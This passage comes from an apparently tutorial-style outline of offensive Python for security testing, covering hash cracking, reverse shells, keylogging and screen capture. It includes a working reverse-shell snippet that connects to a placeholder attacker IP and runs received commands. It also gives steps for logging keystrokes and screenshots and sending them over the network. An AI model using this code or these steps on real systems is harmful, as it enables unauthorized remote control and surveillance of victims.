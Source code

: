     - **Concepts:**
        - Understanding hash functions and rainbow tables.
    - **Implementation Steps:**
        - Use `hashlib` to generate hashes.
        - Compare against hashed passwords to find matches.

---

## **VI. Post-Exploitation with Python**

### **A. Developing a Reverse Shell**

1. **Concepts:**
    
    - Allowing a remote shell connection from the target to the attacker.
    - Understanding socket programming and subprocesses.
2. **Implementation Steps:**
    
    - On the target machine, create a script that connects back to the attacker's IP and port.
    - Use `subprocess` module to execute system commands.
3. **Sample Code Snippet:**
    
    python
    
    Copy code
    
    `import socket import subprocess  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(('attacker_ip', attacker_port))  while True:     command = s.recv(1024).decode()     if command.lower() == 'exit':         break     output = subprocess.getoutput(command)     s.send(output.encode()) s.close()`
    
    **Ethical Note:** Reverse shells can be dangerous and should only be used in controlled environments with proper authorization.
    

### **B. Keylogging and Screen Capture**

1. **Keylogging**
    
    - **Concepts:**
        - Capturing keystrokes from the target system.
    - **Implementation Steps:**
        - Use libraries like `pynput` to monitor keyboard input.
        - Log data to a file or send it over the network.
2. **Screen Capture**
    
    - **Concepts:**
        - Taking screenshots of the target system's display.
    - **Implementation Steps:**
        - Use `pyautogui` or `PIL` to capture the screen.
        - Save images locally or transmit them.

**Ethical Note:** Keylogging and screen capturing are invasive actions. They must only be performed with explicit consent and for authorized security assessments.

---
